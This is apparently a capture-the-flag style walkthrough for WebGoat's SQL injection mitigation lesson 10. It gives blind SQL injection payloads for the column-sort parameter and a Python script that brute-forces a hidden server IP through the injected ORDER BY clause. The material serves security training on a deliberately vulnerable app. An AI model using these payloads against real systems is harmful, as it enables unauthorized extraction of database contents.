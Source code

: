 ![SQLi Mitigation 6](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/sqli-mitigation-6.png)

10.  
![Warning](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/warning.png)   Buggy lesson with the last version, a call to http://localhost:8080/WebGoat/SqlInjection/servers send back an error. 

![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Try sorting and look at the request  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Intercept the request and try to specify a different order by  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Use for example "(case when (true) then hostname else id end)" in the order by and see what happens

*   Click on column sort performs a request to http://localhost:8080/WebGoat/SqlInjection/servers?column=ip. This can be exploited by intercepting the request with Browser Tools and providing prepared string as column value.
*   To get the idea about **webgoat-prd** IP address we first have to find out the table name and ip column name. The obvious guess is **servers** and **ip**:  
    `column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)`
*   If that is the correct table and column name, the table will get sorted by **ids**.
*   So after intercepting and changing the request we get the table sorted by **ids**, the guess was correct.
*   Just to check our logic, lets send request with:  
    `column=(CASE WHEN (SELECT ip FROM whatever WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)`
*   It get's an error page, we have everything to script the attack now.
  
```python
import json  
import requests  
  
def sql_injection_mitigation_10():  
	 index = 0  
  
	 headers = {  
		 'Cookie': 'JSESSIONID=id'  
	 }  
  
	 while True:  
		 payload = '(CASE WHEN (SELECT ip FROM servers WHERE hostname=\'webgoat-prd\') LIKE \'{}.%\' THEN id ELSE hostname END)'.format(index)  
  
		 r = requests.get('http://host:port/WebGoat/SqlInjection/servers?column=' + payload, headers=headers)  
  
		 try:  
			 response = json.loads(r.text)  
		 except:  
			 print("Wrong JSESSIONID, find it by looking at your requests once logged in.")  
			 return  
  
		 if response[0]['id'] == '1':  
			 print('webgoat-prd IP: {}.130.219.202'.format(index))  
			 return  
		 else:  
			 index += 1  
			 if index > 255:  
				 print("No IP found")  
				 return  
  
sql_injection_mitigation_10()
```
